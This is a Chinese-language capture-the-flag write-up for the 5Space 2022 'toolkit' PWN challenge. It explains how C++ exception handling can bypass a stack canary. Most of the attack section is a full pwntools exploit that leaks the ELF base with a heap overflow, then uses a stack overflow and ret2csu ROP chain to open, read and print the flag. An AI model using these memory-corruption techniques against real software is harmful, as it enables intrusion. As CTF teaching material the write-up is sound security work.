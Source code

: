 # toolkit

> Category: PWN 
>
> Date: 2022/09/20
>
> Authorship: 5Space 2022

## 0x00 C++异常处理绕过canary

[Shanghai-DCTF-2017 线下攻防Pwn题 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/89855】#h2-11)

简单来说就是覆盖rbp和返回地址，甚至通过大量溢出覆盖上个函数的返回地址，之后触发C++异常处理，输入错误的内容让程序进入catch处理

需要注意的是，rbp需要控制成存在异常处理函数的调用者函数（caller）

## 0x01 例题 第五空间2022 toolkit

堆溢出泄露elf地址

栈溢出利用异常处理绕过cannary然后csu rop去orw打印flag

````python
# -*- coding: utf-8 -*-
from pwn import *
context(os='linux',arch='amd64')
context.log_level = 'debug'

elf = ELF("./toolkit")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
local = 1

if local:
    p = process("./toolkit")    
else:
    # libc = ELF('libc.so.6')
    p = remote("","")

def debug(p,cmd=""):
    if local:
        gdb.attach(p,cmd)
    else:
        pass

def choice(cmd):
    p.recvuntil("[+]")
    p.sendline(str(cmd))


def gift(passwd):
    choice(0xDEAD00)
    p.sendlineafter(b"Password:",passwd)


def tools2_func2(size,data,key):
    choice(2)
    p.sendlineafter(b"[-]","2")
    p.sendlineafter(b"Length: ",str(size))
    p.sendlineafter(b"Content: ",data)
    p.sendlineafter(b"Key:",key)

def csu(elf_base,call,rdi,rsi,rdx):
    csu_front=elf_base+0x2910
    csu_end=elf_base+0x292a
    payload = p64(csu_end)+p64(0)+p64(1)+p64(rdi)+p64(rsi)+p64(rdx)+p64(call)+p64(csu_front)
    payload += b'\x00'*0x38
    return payload



gift(b'a'*0x210)
p.recvuntil(b'a'*0x210)
elf_base = u64(p.recv(6).ljust(8,b'\x00'))-0x150a
print("[elf_base] ==>",hex(elf_base))
leave_ret = elf_base+0x1512
rbp = elf_base+0x5060
ret = elf_base+0x25db
print("[leave_ret] ==>",hex(leave_ret))
print("[rbp] ==>",hex(rbp))
print("[ret] ==>",hex(ret))

print("[open] ==>",hex(elf_base+elf.plt['open']))
pop_rdi = elf_base+0x0000000000002933
pop_rbp = elf_base+0x0000000000001473
pop_rsi_r15 = elf_base+0x0000000000002931


rop_gadget = p64(pop_rdi)
rop_gadget += p64(rbp)
rop_gadget += p64(pop_rsi_r15)
rop_gadget += p64(0)*2
rop_gadget += p64(elf_base+0x1270) # open
rop_gadget += csu(elf_base,elf_base+0x4f60,3,rbp+0x100,0x30) # read
rop_gadget += p64(pop_rdi)
rop_gadget += p64(rbp+0x100)
rop_gadget += p64(elf_base+elf.plt['puts'])
rop_gadget += p64(0xdeadbeaf)

debug(p,"b * "+hex(elf_base+elf.plt['open']))
tools2_func2(-1,b"./flag".ljust(8,b'\x00')+p64(0x30)+p64(rbp)*(int(0x138/8)-2)+p64(ret)+p64(0xdeadbaef)*5+rop_gadget,"1"*17)

# debug(p)

p.interactive()
````

## 0x02 碎碎念

还有一个奇怪的点是，ubuntu22中pwntools直接用elf.plt拿函数地址偏移总是有问题，这里我全是用gdb看got表手算偏移来orw的~


